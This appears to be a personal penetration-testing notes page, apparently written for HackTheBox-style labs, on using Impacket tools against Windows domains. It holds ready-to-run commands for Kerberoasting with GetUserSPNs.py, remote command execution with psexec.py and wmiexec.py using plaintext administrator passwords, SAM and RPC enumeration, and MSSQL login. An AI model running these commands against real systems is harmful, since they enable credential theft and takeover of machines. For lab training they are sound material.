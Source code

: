 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```



## Guide

```
python3 -m pipx install impacket
```

1. [Impacket Guide: SMB/MSRPC - Hacking Articles](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

## Locating Credentials

```
sudo python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

## Dump Credentials 

[impacket/examples/secretsdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

## Access with Credentials


`wmiexec.py 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'`

```
python psexec.py  active.htb/administrator:Ticketmaster1968@10.10.10.100
```

## SMB 

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]] 

1. Can use `psexec.py` to get reverse shell if write access to the entire system
## SamRDump

```shell-session
samrdump.py 10.129.14.128
```

## RPCDump

[impacket/examples/rpcdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py)

## SQL

[impacket/examples/mssqlclient.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py)

### MSSQL

```shell-session
mssqlclient.py Administrator@10.129.201.248 -windows-auth
```

## WMI

```shell-session
wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```